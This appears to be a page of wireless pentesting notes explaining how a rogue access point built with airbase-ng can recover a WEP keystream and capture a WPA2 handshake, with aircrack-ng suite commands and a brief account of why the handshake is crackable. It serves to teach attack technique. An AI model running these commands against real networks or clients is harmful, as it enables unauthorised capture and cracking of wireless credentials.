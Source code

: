 > **Recover PRGA with a rogue AP**
>
> Here's our setup:
>
> * A victim client unassociated from any AP
> * Our attacking machine \("fake" AP\)
>
> ```bash
> > airmon-ng start <interface>
> > airodump-ng  -c <channel> -w <outfile> <interface>
> # You will need to lock the wireless card to a specific channel.
>
> > airbase-ng -c <channel> -e <SSID> -s -W 1 <interface>
> # -F <file> let airbase-ng save all of the captured information to a file
> # -s force the client to authenticate using the SKA method
> # -W 1 instructs airbase-ng to set the WEP bit in the beacons 
> # as some clients can get confused otherwise.
>
> # At this point you should have gotten a keystream after the victim client
> # connected to the fake AP. airodump-ng should see a SKA handshake was captured
> # and saved in a .xor file for our convenience.
> ```

> **Initiate a WPA/WPA handshake**
>
> We can also use the same technique to obtain a WPA/WPA2 handshake. Configure your client network connection as WPA2 and give it a password. Then launch `airbase-ng` with these options:
>
> ```bash
> > airbase-ng -c <channel> -e <SSID> -W 1 -Z 4 <interface>
> # -Z is used to specify WPA2 optiosn while 4 stands for CCMP encryption scheme.
> ```
>
> The victim client can be tricked into connecting to the spoofed AP and we are able to collect the WPA2 handshake, whenever the client was able to associate.
>
> To prove the attack really worked, we try to crack the captured handshake by passing `aircrack-ng` the configured password through a shell "pipe":
>
> ```bash
> echo largecream | aircrack-ng file.cap -e <SSID> -q -w -
> ```
>
> This is just a convenient way to test one password. Notice we used a dash after the `-w` option to instruct `aircrack-ng` to use the standard input as word list source.
>
> The fun part of this attack is that **we were able to get a real handshake without actually knowing the network PSK.** How is this possible?
>
> In the first message of the 4-way handshake, the AP sends an Anonce to the authenticating client which in turn sends its SNonce plus the MIC. Now the AP has all of the needed information to actually try to crack the PSK, the subsequent steps in the handshake are not eve needed.
